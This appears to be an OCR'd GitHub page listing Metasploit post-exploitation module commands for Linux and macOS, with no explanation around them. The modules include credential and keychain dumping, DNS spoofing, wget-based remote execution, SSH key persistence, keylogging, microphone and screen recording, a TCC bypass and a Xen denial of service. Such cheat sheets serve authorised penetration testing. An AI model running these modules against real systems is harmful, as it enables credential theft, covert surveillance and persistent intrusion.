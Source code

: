 run post/linux/gather/pptpd_chap_secrets

run post/linux/busybox/set_dns

run post/linux/gather/enum_protections

run post/linux/gather/tor_hiddenservices

run post/linux/busybox/smb_share_root

run post/linux/gather/enum_psk

run post/linux/manage/dns_spoofing

run post/linux/busybox/wget_exec

run post/linux/gather/enum_system

run post/linux/dos/xen_420_dos

run post/linux/manage/geutebruck_post_exp

run post/linux/gather/checkcontainer

run post/linux/gather/gnome_commander_creds

run post/linux/gather/gnome_keyring_dump

run post/linux/gather/ecryptfs_creds

run post/linux/gather/haserl_read

run post/linux/manage/sshkey_persistence

## OSX Modules

run post/osx/admin/say

run post/osx/gather/enum_chicken_vnc_profile

run post/osx/gather/safari_lastsession

run post/osx/capture/keylog_recorder

run post/osx/gather/enum_colloquy

run post/osx/gather/vnc_password_osx

run post/osx/capture/screen

run post/osx/gather/enum_keychain

run post/osx/manage/mount_share

run post/osx/escalate/tccbypass

run post/osx/gather/enum_messages

run post/osx/manage/record_mic

run post/osx/gather/apfs_encrypted_volume_passwd

run post/osx/manage/sonic_pi
